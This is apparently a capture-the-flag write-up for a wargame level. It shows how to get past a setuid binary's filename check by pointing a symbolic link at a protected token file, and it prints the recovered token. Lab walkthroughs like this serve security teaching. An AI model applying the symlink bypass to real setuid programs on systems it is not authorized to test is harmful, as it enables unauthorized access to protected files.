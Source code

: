 ## Exploring the exercice

```bash 
$ ls -la
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

We have a binary setuid/getuid and a file token.

Let's do some tests

```bash 
$ ./level08 
./level08 [file to read]

$ ./level08 token
You may not access 'token'

$./level08 .profile 
level08: Unable to open .profile: Permission denied

$ echo 'coucou' > /tmp/test.txt
$ ./level08  /tmp/test.txt
coucou
```
So we have an executable which displays the content of the file. We cannot call it on token. 
Let's see why : 

```bash 
$ strings ./level08 
[...]
token
You may not access '%s'
[...]
```

```bash 
$ ltrace ./level08 token 
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                            = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                                        = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```


The strstr function is called, this function checks if the string "token" (second argument) is a substring of the input filename (first argument).


Since the program checks only the filename but not the content we can create an alias file for token using a symbolic link (ln -s). 

```bash 
$ ln -s ~/token /tmp/new
$ ./level08 /tmp/new
quif5eloekouj29ke0vouxean
```






